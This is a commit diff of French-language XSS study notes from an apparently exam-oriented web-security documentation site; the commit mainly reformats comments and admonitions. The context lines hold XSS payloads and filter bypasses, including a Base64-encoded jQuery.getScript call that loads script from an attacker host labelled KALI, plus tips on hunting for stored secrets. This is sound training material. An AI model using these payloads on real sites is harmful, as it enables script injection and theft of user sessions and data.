

Before and after one commit to GaelleBriet/web200-notes, an MkDocs documentation site: the page built from docs/vulns/14-xss.md, in a window 1280 px wide and 900 px high, scrolled down 1582 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Refactor XSS documentation for improved readability and clarity

````diff
--- a/docs/vulns/14-xss.md
+++ b/docs/vulns/14-xss.md
@@ -75,7 +75,7 @@
 ### 3.3 Injection dans JavaScript existant
 
 ```javascript
-# Si : var x = "INJECTION"
+// Si : var x = "INJECTION"
 ";alert(1);//
 '+alert(1)+'
 '-alert(1)-'
@@ -84,7 +84,7 @@
 ### 3.4 Injection via innerHTML (DOM XSS)
 
 ```javascript
-# <script> bloqué dans innerHTML → utiliser event handler
+// <script> bloqué dans innerHTML → utiliser event handler
 <img src=x onerror=alert(1)>
 <svg onload=alert(1)>
 ```
@@ -92,13 +92,13 @@
 ### 3.5 Base64 + eval (bypass filtres)
 
 ```javascript
-# Encoder le payload en Base64 (dans Burp Decoder)
+// Encoder le payload en Base64 (dans Burp Decoder)
 eval(atob('YWxlcnQoMSk='))
 
-# Avec jQuery.getScript() si jQuery disponible
+// Avec jQuery.getScript() si jQuery disponible
 '+eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovL0tBTEkvdHNzLmpzJyk='))+'
 
-# Wrapper btoa() pour éviter erreurs dans l'URL
+// Wrapper btoa() pour éviter erreurs dans l'URL
 '+btoa(eval(atob('PAYLOAD_B64')))+'
 ```
 
@@ -138,8 +138,8 @@
 ```
 
 !!! warning "HttpOnly"
-Si le cookie est HttpOnly, `document.cookie` retourne vide.
-**Chercher d'autres secrets** : localStorage, sessionStorage, DOM.
+  Si le cookie est HttpOnly, `document.cookie` retourne vide.
+  **Chercher d'autres secrets** : localStorage, sessionStorage, DOM.
 
 ---
 
@@ -284,6 +284,6 @@
 ```
 
 !!! tip "Astuce exam"
-Si `<script>` est bloqué → tester `<img src=x onerror=...>`
-Si `"` est encodé → tenter `'` ou sans guillemets
-Si le filtre bloque `alert` → tester `confirm(1)` ou `prompt(1)`
+  Si `<script>` est bloqué → tester `<img src=x onerror=...>`
+  Si `"` est encodé → tenter `'` ou sans guillemets
+  Si le filtre bloque `alert` → tester `confirm(1)` ou `prompt(1)`
````
